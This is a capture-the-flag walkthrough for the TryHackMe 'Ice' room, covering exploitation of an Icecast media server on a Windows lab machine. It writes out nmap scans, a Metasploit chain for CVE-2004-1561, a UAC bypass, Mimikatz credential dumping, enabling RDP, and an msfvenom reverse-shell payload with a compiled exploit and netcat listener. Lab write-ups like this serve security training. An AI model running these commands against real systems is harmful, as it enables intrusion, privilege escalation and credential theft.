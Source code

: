 # Ice

Link: [Ice](https://tryhackme.com/room/ice)

## High-Level Overview

Exploit a Windows machine that is running an insecure media server.

## Tools Needed

* OSINT
* Nmap
* Netcat
* Metasploit
* Mimikatz

## Walkthrough

* Scanning for open ports and services using `nmap`:

```bash
$ sudo nmap -sS -A -Pn -p- MACHINE:IP -vvv -oN nmap-scan -T5
```

* There are quite a few services running which can be seen in the output from the `nmap` command that is listed below:

```
PORT      STATE    SERVICE            REASON          VERSION
135/tcp   open     msrpc              syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open     netbios-ssn        syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open     microsoft-ds       syn-ack ttl 127 Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open     ssl/ms-wbt-server? syn-ack ttl 127
|_ssl-date: 2023-04-25T15:16:13+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=Dark-PC
| Issuer: commonName=Dark-PC
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2023-04-24T15:09:48
| Not valid after:  2023-10-24T15:09:48
| MD5:   215eeb3083c13ff345863ae0de75e56c
| SHA-1: 927e4a0ce66bd9dc542228a3fd04506c40e10b3e
| -----BEGIN CERTIFICATE-----
...
|_-----END CERTIFICATE-----
3997/tcp  filtered agentsease-db      no-response
5357/tcp  open     http               syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
8000/tcp  open     http               syn-ack ttl 127 Icecast streaming media server
32922/tcp filtered unknown            no-response
49152/tcp open     unknown            syn-ack ttl 127
49153/tcp open     unknown            syn-ack ttl 127
49154/tcp open     unknown            syn-ack ttl 127
49158/tcp open     unknown            syn-ack ttl 127
49159/tcp open     unknown            syn-ack ttl 127
49160/tcp open     unknown            syn-ack ttl 127
```

* Quite a few ports appear open, including some interesting services such as **Icecast**. Running a vulnerability scan using `nmap` against the machine using the command below:

```bash
$ sudo nmap -A -T4 -p 8000 --script vuln MACHINE:IP -vv -d
$ sudo nmap -A -T4 -p 8000 --script=http-slowloris-check MACHINE:IP
```

* Identified a CVE in the **Icecast** streaming media server, output below:

```
PORT     STATE SERVICE VERSION
8000/tcp open  http    Icecast streaming media server
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       http://ha.ckers.org/slowloris/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
```

We should see if there is any other CVE that would allow us to gain access to this machine. And we can see this machine also has the vulnerability [CVE-2004-1561](https://www.cvedetails.com/cve/CVE-2004-1561/) which allows for remote code execution.

* Running metasploit console

```bash
$ msfconsole
> search icecast
> use 0
> show options
> setg LHOST VPN:IP:HERE
> setg RHOSTS MACHINE:IP:HERE
> setg RPORT 8000
> exploit
> show sessions
# meterpreter
> getuid
> sysinfo
> run post/multi/recon/local_exploit_suggester
# exploit/windows/local/bypassuac_eventvwr
# CTRL + Z
> sessions
> use exploit/windows/local/bypassuac_eventvwr
> show sessions
> set session 1
> set LHOST VPN:IP:HERE
> run
> sessions 2
> getprivs
# SeTakeOwnershipPrivilege - this is what we needed
```

Looting credentials from this machine. In the same meterpreter session we will be using mimikatz, and manipulating processes and services running.

```bash
> ps
> migrate -N spoolsv.exe
> getuid
# now we are the user NT AUTHORITY\SYSTEM
# with full administrator permissions, we will use Mimikatz to dump all the passwords
> load kiwi
> help
> creds_all
> run post/windows/manage/enable_rdp
```

## Exploitation without Metasploit

* Download fixed version of exploit from [here](https://github.com/ivanitlearning/CVE-2004-1561) as `568.c`
* Generate payload using `msfvenom` and your VPN IP

```bash
$ msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=MACHINE:IP LPORT=443 -b '\x0a\x0d\x00' -f c

unsigned char buf[] = 
"\xbf\................"
...
..
.
```

* Replace the shellcode payload in the `568.c` exploit with your generated custom payload
* Compile the the exploit and set up a `nc` listener on your attacking machine

```bash
gcc 568.c -o 568
chmod +x 568
sudo nc -nvlp 443
./568 MACHINE:IP
```